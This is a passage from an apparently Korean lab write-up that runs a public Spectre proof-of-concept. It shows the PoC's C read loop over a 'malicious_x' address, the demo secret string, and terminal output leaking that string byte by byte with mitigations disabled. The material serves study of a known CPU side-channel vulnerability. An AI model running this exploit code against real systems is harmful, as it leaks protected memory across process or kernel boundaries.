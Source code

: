 ```

  printf("Reading %d bytes:\n", len);

  /* Start the read loop to read each address */
  while (--len >= 0) {
    printf("Reading at malicious_x = %p... ", (void * ) malicious_x);

    /* Call readMemoryByte with the required cache hit threshold and
       malicious x address. value and score are arrays that are
       populated with the results.
    */
    readMemoryByte(cache_hit_threshold, malicious_x++, value, score);

    /* Display the results */
    printf("%s: ", (score[0] >= 2 * score[1] ? "Success" : "Unclear"));
    printf("0x%02X=’%c’ score=%d ", value[0],
      (value[0] > 31 && value[0] < 127 ? value[0] : '?'), score[0]);

    if (score[1] > 0) {
      printf("(second best: 0x%02X=’%c’ score=%d)", value[1],
      (value[1] > 31 && value[1] < 127 ? value[1] : '?'), score[1]);
    }

    printf("\n");
  }
  return (0);
}
```

`Spectre` 취약점을 이용하여 특정 문자열을 읽어내는 PoC 코드이다. 타겟 문자열 선언부는 다음과 같다.



```
char * secret = "The Magic Words are Squeamish Ossifrage.";
```

`make`하고 실행해 보았다.



```
minibeef@argos-edu:~/spectre/SpectrePoC$ ./spectre.out
Version: commit 856f80f2937f2bb812cab68d45c149272a1783d5
Using a cache hit threshold of 80.
Build: RDTSCP_SUPPORTED MFENCE_SUPPORTED CLFLUSH_SUPPORTED INTEL_MITIGATION_DISABLED LINUX_KERNEL_MITIGATION_DISABLED
Reading 40 bytes:
Reading at malicious_x = 0xffffffffffdfef58... Success: 0x54=’T’ score=2
Reading at malicious_x = 0xffffffffffdfef59... Success: 0x68=’h’ score=2
Reading at malicious_x = 0xffffffffffdfef5a... Success: 0x65=’e’ score=11
Reading at malicious_x = 0xffffffffffdfef5b... Success: 0x20=’ ’ score=11
Reading at malicious_x = 0xffffffffffdfef5c... Unclear: 0x4D=’M’ score=13 (second best: 0x00=’?’ score=7)
Reading at malicious_x = 0xffffffffffdfef5d... Success: 0x61=’a’ score=15 (second best: 0x00=’?’ score=6)
Reading at malicious_x = 0xffffffffffdfef5e... Success: 0x67=’g’ score=11
Reading at malicious_x = 0xffffffffffdfef5f... Unclear: 0x69=’i’ score=13 (second best: 0x00=’?’ score=7)
Reading at malicious_x = 0xffffffffffdfef60... Success: 0x63=’c’ score=11
Reading at malicious_x = 0xffffffffffdfef61... Success: 0x20=’ ’ score=15 (second best: 0x00=’?’ score=6)
Reading at malicious_x = 0xffffffffffdfef62... Unclear: 0x57=’W’ score=13 (second best: 0x00=’?’ score=7)
Reading at malicious_x = 0xffffffffffdfef63... Success: 0x6F=’o’ score=15 (second best: 0x00=’?’ score=6)
Reading at malicious_x = 0xffffffffffdfef64... Success: 0x72=’r’ score=2
```